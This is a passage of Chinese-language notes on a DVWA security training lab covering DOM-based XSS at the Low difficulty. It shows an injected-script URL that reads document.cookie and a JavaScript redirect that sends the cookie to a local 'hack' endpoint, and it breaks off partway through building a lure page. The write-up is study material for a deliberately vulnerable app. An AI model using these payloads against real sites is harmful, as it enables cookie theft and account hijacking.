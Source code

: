 再看一看服务端的代码，`Low`难度没有对`URL`进行任何控制。

```php
<?php

# No protections, anything goes

?>
```

比如我们想要窃取别人的`Cookie`的话，只需要诱导他点击下面的链接。

```javascript
http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>
```

![Cookie](../../../img/课程笔记/网络安全/DVWA训练/3.DVWA_XSS_DOM_All/2.cookie.png)

$$
\text{Figure 2. Cookie}
$$

当然，这个链接太明显了，别人不一定会点击，我们可以在服务器上挂一个网页，从网页转到这个链接即可。

这里我们仅在本地调试，我们在本地`8888`端口挂一个`hack.js`文件，这里的命令将会把`Cookie`发送到`hack`接口。

```javascript
window.location.href = "http://localhost:8888/hack?cookie=" + document.cookie;
```

再构造一个跳转页面作为`index.html`。

```html
<!DOCTYPE html>
<html lang="zh">

    <head>
        <meta charset="UTF-8">
        <style>
            div {
                text-align: center;
            }

        </style>
    </head>

    <body>
        <div>
            <p>
```